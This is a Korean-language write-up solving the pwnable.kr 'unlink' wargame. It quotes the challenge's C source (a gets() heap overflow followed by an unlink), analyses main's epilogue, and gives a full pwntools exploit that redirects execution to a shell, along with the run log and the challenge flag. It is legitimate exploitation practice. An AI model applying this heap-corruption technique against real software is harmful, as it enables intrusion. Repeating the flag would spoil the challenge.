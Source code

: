 # unlink - 10 pt

## 문제

```
Daddy! how can I exploit unlink corruption?

ssh unlink@pwnable.kr -p2222 (pw: guest)
```

## 풀이

코드를 보면서 문제의 개략적인 목표를 찾아보도록 하겠다.

```c
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;
```

`fd`와 `bk`가 있는 구조체이다. 각각은 자신의 앞 또는 뒤 구조체 데이터 블록을 가르키도록 `main` 함수에서 하드코딩 되어있다.

```c
void shell(){
        system("/bin/sh");
}
```

이 문제의 목적은 확실하게 실행흐름을 `shell` 함수로 바꾸는 것이라고 생각된다.

```c
void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
```

`OBJ` 구조체 블록의 연결을 끊으면서 자신의 `fd`와 `bk`가 각각 가르키고 있는 구조체 블록을 서로 연결시켜준다. 보는게 이해하는데 더 빠를듯;;

![1](screenshot/unlink_1.png)

```c
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

`A` 구조체의 `buf`에 입력 데이터를 넣고 `B`를 `unlink` 함수로 연결을 끊는다. `gets`에서 힙 오버플로우가 발생하게 되어서 뒤에 있는 `B`, `C` 구조체를 조작할 수 있게 된다.

문제를 하루정도 잡고 있었는데, 여러가지를 시도해 봤다.

- 간단하게 `B.fd`에 `main` 함수 리턴 어드레스와 `B.bk`에 `shell` 함수의 주소를 넣어서 실행흐름을 바꾼다.
  - `unlink`를 하면 `B.fd` 주소의 값과 `B.bk` 주소의 값이 서로 바뀐다. 그래서 코드 영역에 접근하려다 세그폴트나고 죽는다ㅋ
- `A.buf`에 `jmp $shell`과 같은 어셈 코드를 넣고 위처럼 실행흐름을 Heap으로 넘긴다.
  - 일단 위에서 말한 것처럼 값이 서로 뒤바뀌는 거여서 주소에 적어놓은 코드가 변조된다ㅋ... 거기다가 바이너리에 NX가 걸려있어서 코드가 실행 될지는 미지수...

이 노가다를 하루 종일 하다가 깨달은 건 `shell` 함수를 Heap에 저장해 놓고 리턴 주소를 직접적으로 `shell` 함수 주소로 바꾸지 않고 `shell` 함수를 간접적으로 참조하게 하는 로직을 찾아야 한다는 것이다. 아무리 봐도 어디서 해야되는 거지하고 봤는데... [이 블로그](https://go-madhat.github.io/pwnable.kr-unlink/)를 살짝살짝 읽다가, 답을 찾았다.

```assembly
0x0804852f <+0>:     lea    ecx,[esp+0x4]
0x08048533 <+4>:     and    esp,0xfffffff0
0x08048536 <+7>:     push   DWORD PTR [ecx-0x4]
0x08048539 <+10>:    push   ebp
0x0804853a <+11>:    mov    ebp,esp
...
0x080485fa <+203>:   mov    eax,0x0
0x080485ff <+208>:   mov    ecx,DWORD PTR [ebp-0x4]     <- 여기, 결국 EBP-0x4 값만 컨트롤 하면 EIP를 변조할 수 있게 된다.
0x08048602 <+211>:   leave
0x08048603 <+212>:   lea    esp,[ecx-0x4]               <- 여기
0x08048606 <+215>:   ret
```

처음 문제를 보고 풀때 왜 저런 방식으로 함수 프롤로그를 여는지 궁금해서 구글에 쳐봤는데 컴파일러의 속마음을 아는 사람은 없었는지 이유를 찾지 못했다. 그러나 중요한 점은 이게 리턴 주소를 단순히 스택에 집어 넣고 `leave ret`으로 돌아가는 것이 아니라 `ECX` 범용 레지스터를 사용해서 간접적으로 참조를 시킨다는 것이다. 다시 말하지만 아직도 왜 이렇게 컴파일러가 하는지는 찾지 못했다. 뭐 주소 정렬하려고 이렇게 했나 모르겠다. 

`lea esp,[ecx-0x4]` 코드를 활용하면 `shell` 함수의 주소를 간접적으로 가져올수 있다! 예에에~

위에서 하려고 했던 익스플로잇의 한계점은 이랬다.

- 읽기 영역인 코드 영역을 침범했다.
  - 이번에는 Heap과 Stack에 있는 값을 변조할 것이기 때문에 세그폴트는 나지 않는다!
- 값이 서로 뒤바뀌어서 직접적으로 값을 참조할 수 없다.
  - `ESP`를 변조하는 값이 `[ecx-0x4]`이기 때문에 서로 뒤바뀐 값이 들어있는 영역이 아니라 그 전 4바이트를 사용할 수 있다. 여기에 `shell` 함수의 주소를 넣으면 된다.

아래는 위에서 설명한 방법을 사용하는 익스플로잇 코드다.

```python
from pwn import *

p = process("/home/unlink/unlink")
d = p.recvuntil("get shell!")
print d

# 문제에서 주어진 Stack, Heap, Shell 함수의 주소를 가져온다.
stack = int(d.split(":")[1].split()[0].strip(),16)
heap = int(d.split(":")[2].split()[0].strip(),16)
shell = "\xeb\x84\x04\x08"

# 페이로드를 구성한다.
payload = ""
payload += shell+'A'*12         # A.buf[8] = Shell 함수 4바이트 + "A"*4
payload += p32(stack + 0xc)     # B.fd = EBP-0x4 위치를 주어진 Stack 주소에서 계산해 넣는다.
payload += p32(heap + 0xc)      # A.buf+4 = ecx-0x4를 참조하기 때문에 A.buf+4 주소를 넣는다.

print repr(payload)

p.send(payload)
print p.recvline()
p.interactive()
```

실행하면... 우헤헷

```bash
unlink@ubuntu:~$ python /tmp/nvm.py
[+] Starting local process '/home/unlink/unlink': Done
here is stack address leak: 0xff974b84
here is heap address leak: 0x929e410
now that you have leaks, get shell!
'\xeb\x84\x04\x08AAAAAAAAAAAA\x90K\x97\xff\x1c\xe4)\t'


[*] Switching to interactive mode
$ ls
flag  intended_solution.txt  unlink  unlink.c
$ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```